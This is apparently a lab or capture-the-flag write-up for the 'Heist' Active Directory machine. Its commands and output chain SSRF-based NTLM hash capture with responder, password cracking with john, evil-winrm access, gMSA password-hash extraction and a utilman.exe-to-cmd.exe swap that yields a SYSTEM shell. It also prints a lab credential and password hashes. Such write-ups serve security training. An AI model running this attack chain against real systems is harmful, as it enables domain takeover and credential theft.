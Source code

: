 # Heist

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.240.165
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 13:09 +08
Nmap scan report for 192.168.240.165
Host is up (0.17s latency).
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
8080/tcp  open  http-proxy
9389/tcp  open  adws
49666/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49674/tcp open  unknown
49687/tcp open  unknown
49740/tcp open  unknown
```

This is an AD machine. There were no null credentials accepted by any service. Also, RDP is open.

### Secure Web Browser -> NTLM Capture

Port 8080 hosted a Secure Web Browser application:

<figure><img src="../../../.gitbook/assets/image (3366).png" alt=""><figcaption></figcaption></figure>

This looks vulnerable to SSRF, and it is.&#x20;

<figure><img src="../../../.gitbook/assets/image (500).png" alt=""><figcaption></figcaption></figure>

We can view the exact request this is sending:

```
$ nc -lvnp 80                                 
listening on [any] 80 ...
connect to [192.168.45.216] from (UNKNOWN) [192.168.240.165] 49902
GET /hiiamssrf HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
Host: 192.168.45.216
```

This might be poisanable with `responder`, and I tested it:

<figure><img src="../../../.gitbook/assets/image (3237).png" alt=""><figcaption></figcaption></figure>

This hash can be cracked instantly:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
california       (enox)     
1g 0:00:00:00 DONE (2023-07-07 13:20) 100.0g/s 204800p/s 204800c/s 204800C/s 123456..lovers1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

We can then `evil-winrm` into the box:

<figure><img src="../../../.gitbook/assets/image (2482).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Bloodhound -> ReadGMSAPassword

Remember to add this entry to the `/etc/hosts` file:

```
192.168.240.165 heist.offsec dc01.heist.offsec
```

Afterwards, we can run `bloodhound-python` on this domain:

```
$ bloodhound-python -d heist.offsec -u enox -p california -c all -ns 192.168.240.165
```

After the data is uploaded, we can see that `enox` is part of the Web Admins group:

<figure><img src="../../../.gitbook/assets/image (3239).png" alt=""><figcaption></figcaption></figure>

This group has the ReadGMSAPassword privilege over the DC:

<figure><img src="../../../.gitbook/assets/image (3227).png" alt=""><figcaption></figcaption></figure>

There is one service account present on the domain, and it is `svc_apache`:

```
*Evil-WinRM* PS C:\Users\enox\desktop> dir C:\Users


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/20/2021   4:25 AM                Administrator
d-----        2/17/2023   2:28 PM                enox
d-r---        5/28/2021   3:53 AM                Public
d-----        9/14/2021   8:27 AM                svc_apache$
```

To abuse this, we can use `GMSAPasswordReader.exe` to read the password.&#x20;

```
*Evil-WinRM* PS C:\Users\enox\desktop> .\gmsapasswordreader.exe --AccountName 'svc_apache$'
Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : F3BD314F41B2238B77AE44295B1692D0
[*]       aes128_cts_hmac_sha1 : C3E579495A9E7D2E628AF3706F4D3F8E
[*]       aes256_cts_hmac_sha1 : 9CE142EE695F99644C7E353BD41003A1DE557D49E964CE303580DE61839FB100
[*]       des_cbc_md5          : 29EC62D95B83C80E

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : F545CFD20E81CB5F45ECBFC138298D74
[*]       aes128_cts_hmac_sha1 : 71BA26A3A3F8943448F3A30601D60CF2
[*]       aes256_cts_hmac_sha1 : E7729B725E69655399D18745127797D22D14E70ED8D6F40ED8CD2E89B71C361C
[*]       des_cbc_md5          : 0104797391E6C86D
```

We can then `evil-winrm` in as this user:

<figure><img src="../../../.gitbook/assets/image (3017).png" alt=""><figcaption></figcaption></figure>

### SeRestorePrivilege -> RDP Shell

This service user has the SeRestorePrivilege enabled:

```
*Evil-WinRM* PS C:\Users\svc_apache$\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

To exploit this, we can follow the methodology on PayloadAllTheThings:

<figure><img src="../../../.gitbook/assets/image (2533).png" alt=""><figcaption></figcaption></figure>

We can execute these commands:

```
*Evil-WinRM* PS C:\Users\svc_apache$\Documents> Enable-SeRestorePrivilege
*Evil-WinRM* PS C:\Users\svc_apache$\Documents> cd C:\Windows\System32
*Evil-WinRM* PS C:\Windows\System32> move utilman.exe utilman.old
*Evil-WinRM* PS C:\Windows\System32> move cmd.exe utilman.exe
```

Afterwards we need RDP access. We don't actually need to login, we just need to access the login page:

```
$ rdesktop -d heist.offsec -u enox -p california heist.offsec
```

![](<../../../.gitbook/assets/image (3565).png>)

Just press the button on the bottom right, and it will spawn a SYSTEM shell:

<figure><img src="../../../.gitbook/assets/image (2099).png" alt=""><figcaption></figcaption></figure>

If you want to get a proper shell, then we can just add `enox` to the Domain Admins and Administrators groups with `net.exe`. Rooted!&#x20;
